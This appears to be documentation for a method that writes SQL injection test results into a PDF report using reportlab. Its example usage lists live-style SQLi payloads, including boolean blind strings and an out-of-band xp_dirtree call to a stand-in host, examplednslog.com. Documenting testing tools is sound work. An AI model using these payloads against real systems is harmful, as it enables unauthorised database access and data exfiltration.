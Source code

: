 
## Method Name:

`generate_pdf_report(results: List[Tuple[str, str, Union[str, Tuple[str, str]]]], filename: str) -> None`

## Description:

This method generates a PDF report containing the results of the SQL injection testing. The method takes in a list of tuples containing the vulnerable parameter, the type of SQL injection attack, and the payload used for the attack, and a filename for the generated PDF report. The method generates a table from the input data and styles the table. Then it creates a PDF document and adds the table to the document. Finally, it saves the PDF document with the specified filename.

## Parameters:

-   `results`: A list of tuples containing the vulnerable parameter, the type of SQL injection attack, and the payload used for the attack.
-   `filename`: A string representing the filename for the generated PDF report.

## Returns:

-   None

## Method Steps:

1.  Create a list of lists containing the table data by concatenating a header row and the input data.
2.  Create a `Table` object from the table data using the `Table` class from the `reportlab.platypus` module.
3.  Define the style for the table using the `TableStyle` class from the `reportlab.platypus` module.
4.  Apply the table style to the table using the `setStyle` method of the `Table` object.
5.  Create a `SimpleDocTemplate` object from the filename and the `letter` page size using the `SimpleDocTemplate` class from the `reportlab.platypus` module.
6.  Build the PDF document by adding the table to the document using the `build` method of the `SimpleDocTemplate` object.
7.  Save the PDF document with the specified filename.

## Exceptions:

-   This method may raise exceptions from any of the functions or classes called within it, such as `Table`, `TableStyle`, `SimpleDocTemplate`, and `build`.

## Example Usage:
```
results = [("q", "Classic SQLi", "'"), ("category", "Blind SQLi (Inferential)", ("1' AND 1=1--", "1' AND 1=2--")), ("q", "Out-of-band SQLi", "1'; EXEC xp_dirtree 'http://examplednslog.com';--")]
filename = "sql_injection_report.pdf"

generate_pdf_report(results, filename)
```